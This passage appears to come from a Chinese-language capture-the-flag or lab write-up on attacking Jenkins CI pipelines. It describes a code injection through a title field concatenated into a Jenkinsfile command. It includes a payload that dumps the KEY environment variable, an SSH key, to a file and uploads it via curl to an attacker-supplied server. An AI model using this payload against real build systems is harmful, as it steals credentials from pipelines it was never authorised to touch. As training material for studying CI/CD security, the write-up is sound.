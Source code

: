 ![image-20240328141146680](attachments/image-20240328141146680.png)

## 0x09 Dormouse

Wonderland/dormouse 仓库的 Jenkinsfile 文件存在一个下载 .sh 文件的地址

![image-20240328161730165](attachments/image-20240328161730165.png)

进入 http://localhost:3000/Cov/reportcov 仓库，Jenkinsfile 文件直接拼接 title 执行命令，存在代码注入

![image-20240328161956710](attachments/image-20240328161956710.png)

通过环境变量 KEY 向远程主机复制文件，ssh 密钥，所以可以获取该变量

```
`echo "${KEY}" > key && curl -v -F file=@key <YOUR SERVER>`
```

![image-20240328162059538](attachments/image-20240328162059538.png)
